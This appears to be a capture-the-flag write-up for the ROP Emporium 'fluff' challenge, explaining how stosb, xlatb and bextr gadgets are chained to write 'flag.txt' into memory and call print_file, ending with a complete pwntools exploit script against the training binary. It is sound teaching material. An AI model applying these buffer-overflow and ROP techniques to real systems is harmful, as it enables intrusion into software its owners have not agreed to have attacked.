

*Starting with the basics again, but now with a not-so-simple approach. Removing some gadgets to put some exquisite ones on place, would made the 6th challenge a little bit more complex to deal with. This challenge was indeed a very good reminder to always pay attention to different assembly instructions and how they work.*

The challenge gives us the explanation that the binary doesn't contain any straightforward gadgets, and that we should just do the same as we did in the *write4* challenge:
1. Write the "**flag.txt**" in some place in memory;
2. Call the *print_file()* function passing the string location as a parameter.

Starting with the check sec for the challenge, we found out that the binary contain the following security checks:

```bash
pwn checksec --binary ./fluff
```


- Partial RELRO
- NX enabled

Going to the first step, detecting the buffer overflow, so we sent a 100 byte long pattern generated with *msf-pattern_create* and checked with *msf-pattern_offset*.


```bash
msf-pattern_create -l 100
```

Capturing the **RSP** value, we got exact match at offset 40.



```bash
msf-pattern_offset -q 0x3562413462413362
```

As said in the [write4 challenge post](https://b4nng.github.io/2024-12-28-ropemporium-write4):
>Before starting, we have to consider some things:
>1. We have to find a valid writable **and** readable place in memory to put our "**flag.txt**" string.
>2. As the challenge suggests, find a gadget that could move our string into that address, e.g. `mov [eax], ebx`


The step 1 in this case could be achieved verifying the sections existent on the binary using *radare2*:

```bash
rabin2 -S ./fluff
```


Choosing the *.data* section as we have no data in there and it's read & write, let's dive into the step 2.


Checking our existent gadgets, no gadgets such as `mov [reg], reg` were found, so a deep analysis into the found ones was needed.

```bash
ROPgadget --binary fluff --depth 10
```


The found gadgets to send the string to memory were the following:

```python
0x0000000000400639 : stosb byte ptr [rdi], al ; ret
0x0000000000400628 : xlatb ; ret
0x000000000040062a : pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
```

Those found gadgets could be used to put information inside our memory locations properly, giving a quick explanation on how they work:
- *STOSB* - Write a byte into the destination operand, in this case, basically a `mov byte [rdi], al`;
- *XLATB* - Using the *RBX* address as a pointer for a list, picks the byte value inside *AL*, use it as an index to that list, pick the value in that list in the (*AL* value) index position and store it inside *AL*, overriding the previous register's value. In this case, basically a `mov al, byte [rbx+al]`.
- *BEXTR* - This is a little bit complex, but basically picks the desired amount of bits of the origin operand (*RCX*), and store it into the destination (*RBX*), using 2 bytes to define the amount of bits and the starting index to copy (*RDX*), simplifying (A LOT) for our use, basically a `mov rbx, rcx`. ([a very good explanation was found here.](https://stackoverflow.com/questions/70208751/how-does-the-bextr-instruction-in-x86-work)).

From here, the logic for our chain is built:
1. Set *RBX* to address of the opcodes in bytes, equivalent for each char of the string "**flag.txt**", using the *BEXTR* gadget;
2. Set *RDI* to a pointer of *.data*;
4. Put the hex value of the character into *AL* using *XLATB* gadget;
5. Send *AL* value to *RDI* location using *STOSB* gadget;
6. Repeat the operation until the string is completed, correcting the offset to the correct position;
7. Set *RDI* to a pointer of *.data*;
8. Call *print_file()*;
9. gg :)

In order to write the "**flag.txt**" string into memory, I decided to pick each character from parts of the program itself (a memory address for "**f**", a memory address for "**l**", a memory address for "**a**", and so it goes).

To accomplish that, *ROPGadget* have a feature to search for each opcode inside the program, so it was used to search for the corresponding opcode of each character.

E.g. the character "**f**" have its hex value as **66**.

```bash
ROPgadget --binary fluff --opcode 66
```


This small snippet in python was used to automatically get one of those addresses, returning an ordered list in to build the string:

```python
#!/usr/bin/env python
import sys, os

string = sys.argv[1]

for c in string:
    hexcode = hex(ord(c)).strip('0x')
    os.system("ROPgadget --binary fluff --opcode "+hexcode+" | tail -n1")
```

Since we didn't have  any badchars, there was no need to check each address, so we got the addresses for each character as follows:


Now, together with the gadgets gathered throughout the searching, there is some calculations to perform in order to get the proper index of the character.

Let's analyze the gadget that will be used to extract the character from memory and write into "**AL**":

```python
pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
```

The address that will be popped must be subtracted `0x3ef2` to nullify the addition that will be performed on it, and subtract the value already inside *RAX* so it won't be changed by the index. 

The address of each character was mapped inside a `flagstr` array, and the values inside *RAX* was mapped as each byte code of the characters themselves inside `rax_values` array.

Before setting the `rax_values` array, the calculations must be performed for the values **already** present at *RAX*, so to discover the value during the operation 0, the program was executed and stopped at the exact moment of the return function, and the value present every execution at the *RAX* register was `0xb`.


This will be the first element in the array, followed by the "**flag.txt**" bytecodes, since they will be the value of *RAX* after every iteration.

A little function was defined to deal with all of those calculations.

```python
rax_values = [0xb,0x66,0x6c,0x61,0x67,0x2e,0x74,0x78,0x74]

flagstr = [0x4006a6,0x400405,0x4005d2,0x4007a0,0x4006a7,0x4006ce,0x4007bc,0x4006ce]

def get_origin_from_flagstr(index):
    return p64(flagstr[index]-0x3ef2-rax_values[index])
```

Creating the payload with the following final exploit code:
```python
from pwn import *

elf = context.binary = ELF("./fluff")

gdg = dict()

# Buffer fill
BUFFER_FILL = b"A"*40
DUMMY = p64(0xdeadbeefdeadbeef)

# Gadgets
gdg["pop rdi"] = p64(0x4006a3)
gdg["pop rbx,rbp,r12 to r15"] = p64(0x40069a)
gdg["stosb rdi"] = p64(0x400639)
gdg["xlatb"] = p64(0x400628)
gdg["mov eax, 0; pop rbp"] = p64(0x400610)
gdg["pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx"] = p64(0x40062a)

# flag.txt
flagstr = [0x4006a6,0x400405,0x4005d2,0x4007a0,0x4006a7,0x4006ce,0x4007bc,0x4006ce]

# Values contained inside RAX that will serve as index for XLATB
rax_values = [0xb,0x66,0x6c,0x61,0x67,0x2e,0x74,0x78,0x74]

def get_origin_from_flagstr(index):
    return p64(flagstr[index]-0x3ef2-rax_values[index])

# Address of print_file@plt
PRINT_FILE = p64(0x400510)

# Address of .data
DATA_SECTION = p64(0x601028)

payload = BUFFER_FILL
payload += gdg["pop rdi"]
payload += DATA_SECTION

for c in range(0,len(flagstr)): # Array containing each character address in the code for "flag.txt"
    payload += gdg["pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx"]
    payload += p64(0x1f00)
    payload += get_origin_from_flagstr(c)
    payload += gdg["xlatb"]
    payload += gdg["stosb rdi"]

payload += gdg["pop rdi"]
payload += DATA_SECTION
payload += PRINT_FILE

io = process(elf.path)
io.send(payload)
io.interactive()
```

We got the flag:


*Changed the flag name a bit just 4fun :)*